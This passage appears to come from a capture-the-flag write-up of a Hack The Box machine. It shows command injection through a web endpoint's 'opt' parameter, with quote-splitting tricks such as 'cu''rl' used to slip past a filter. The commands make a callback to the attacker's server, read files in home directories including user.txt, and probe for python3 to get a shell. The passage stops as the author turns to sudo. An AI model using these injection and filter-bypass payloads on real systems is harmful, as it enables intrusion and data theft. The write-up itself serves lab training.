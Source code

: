 I won’t update every command from here on, but do note that you may need
something else besides `curl`. Thanks to InvertedClimbing for the tip.

Test callout:

    
    
    root@kali# python -m SimpleHTTPServer 80
    Serving HTTP on 0.0.0.0 port 80 ...
    10.10.10.69 - - [25/Mar/2018 14:34:01] "GET / HTTP/1.1" 200 -
    
    root@kali# curl "10.10.10.69/sync?opt=' cu''rl 10.10.14.157'"
    0xdf
    bash: -c: option requires an argument
    

Grab user.txt:

    
    
    root@kali# curl "10.10.10.69/sync?opt=' l''s /home'"
    FluxCapacitorInc
    themiddle
    bash: -c: option requires an argument
    
    root@kali# curl "10.10.10.69/sync?opt=' l''s /home/themiddle'"
    checksync
    user.txt
    bash: -c: option requires an argument
    
    root@kali# curl "10.10.10.69/sync?opt=' c''at /home/themiddle/us''er.txt'"
    Flags? Where we're going we don't need flags.
    bash: -c: option requires an argument
    
    root@kali# curl "10.10.10.69/sync?opt=' c''at /home/FluxCapacitorIn''c/us''er.txt'"
    [redacted]
    bash: -c: option requires an argument
    

## Get a shell?

Try a shell:

    
    
    root@kali# curl "10.10.10.69/sync?opt=' whi''ch pytho''n'"
    bash: -c: option requires an argument
    
    root@kali# curl "10.10.10.69/sync?opt=' whi''ch pytho''n3'"
    /usr/bin/python3
    bash: -c: option requires an argument
    

## Give up on Shell, privesc through web

Can find python3, but pipe gets blocked, and i can’t write even to tmp.
Getting a shell seems hard.

Since I can’t get LinEnum up on the box, think about the things it typically
finds. sudo is a good place to start:
